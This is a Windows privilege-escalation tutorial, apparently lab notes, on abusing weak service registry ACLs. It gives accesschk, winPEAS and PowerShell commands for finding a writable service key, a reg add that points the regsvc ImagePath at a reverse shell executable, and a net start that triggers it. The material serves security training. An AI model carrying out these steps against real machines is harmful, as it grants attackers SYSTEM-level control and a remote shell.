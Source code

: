 # Weak Registry Permissions

The Windows registry stores entries for each service. Since registry entries can have ACLs, if the ACL is misconfigured, it may be possible to modify a service’s configuration even if we cannot modify the service directly.

```text
accesschk.exe -accepteula -wuvc "Everyone" *
accesschk.exe -accepteula -wuvc "Users" *
accesschk.exe -accepteula -wuvc "Authenticated Users" *
```

Run winPEAS to check for service misconfigurations:

```text
winPEASany.exe quiet servicesinfo
```

![](../../../../.gitbook/assets/image%20%2876%29.png)

Note that the “regsvc” service has a weak registry entry. We can confirm this with PowerShell:

```text
Get-Acl HKLM:\System\CurrentControlSet\Services\regsvc | Format-List
```

![](../../../../.gitbook/assets/image%20%2887%29.png)

Alternatively accesschk.exe can be used to confirm:

```text
accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

![](../../../../.gitbook/assets/image%20%2894%29.png)

verify that we can start the service:

```text
accesschk.exe /accepteula -ucqv user regsvc
```

![](../../../../.gitbook/assets/image%20%28104%29.png)

now lets check the current value of the service registry entry:

```text
reg query HKLM\System\CurrentControlSet\Services\regsvc
```

![](../../../../.gitbook/assets/image%20%2899%29.png)

Overwrite the ImagePath registry key to point to our reverse shell executable:

```text
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```

![](../../../../.gitbook/assets/image%20%2873%29.png)

Start a listener on Kali, and then start the service to trigger the exploit:

```text
 net start regsvc
```

![](../../../../.gitbook/assets/image%20%2895%29.png)





